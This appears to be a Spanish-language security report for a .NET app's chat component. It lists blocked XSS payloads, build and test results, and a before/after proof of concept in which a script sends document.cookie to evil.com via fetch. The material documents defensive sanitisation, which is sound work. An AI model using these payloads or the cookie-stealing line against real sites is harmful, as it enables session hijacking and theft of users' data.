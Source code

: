 ### Payloads XSS Bloqueados

```javascript
✅ <script>alert('xss')</script>
✅ <img src=x onerror=alert(1)>
✅ <svg onload=alert(document.cookie)>
✅ <iframe src='javascript:alert(1)'></iframe>
✅ <body onload=alert('xss')>
✅ <input onfocus=alert(1) autofocus>
✅ <select onfocus=alert(1) autofocus>
✅ <textarea onfocus=alert(1) autofocus>
✅ <keygen onfocus=alert(1) autofocus>
✅ <video><source onerror=alert(1)>
```

---

## 📊 VALIDACIÓN DE COMPILACIÓN

```bash
dotnet build AutoGuia.sln
# ✅ Compilación correcta
# ⚠️ 2 Advertencias (nullability - no críticas)
# ❌ 0 Errores
```

### Ejecución de Tests

```bash
dotnet test AutoGuia.Tests/AutoGuia.Tests.csproj --filter "ChatAsistenteSecurityTests"
# ✅ 16/16 tests pasando (100%)
# ⏱️ Duración: 35ms
# 📊 Cobertura: 100% del componente ChatAsistente
```

---

## 🛡️ PROTECCIÓN IMPLEMENTADA

### Antes (Vulnerable)

**Prueba de Concepto (PoC)**:
```javascript
// Usuario malicioso envía:
"<script>fetch('https://evil.com?cookie='+document.cookie)</script>Mi auto no arranca"

// Resultado: ❌ Script se ejecuta, cookies robadas
```

### Después (Seguro)

**Mismo Payload**:
```javascript
// Usuario malicioso envía:
"<script>fetch('https://evil.com?cookie='+document.cookie)</script>Mi auto no arranca"

// Resultado: ✅ Sanitizado a "Mi auto no arranca"
// HTML output: "Mi auto no arranca" (sin tags peligrosos)
```
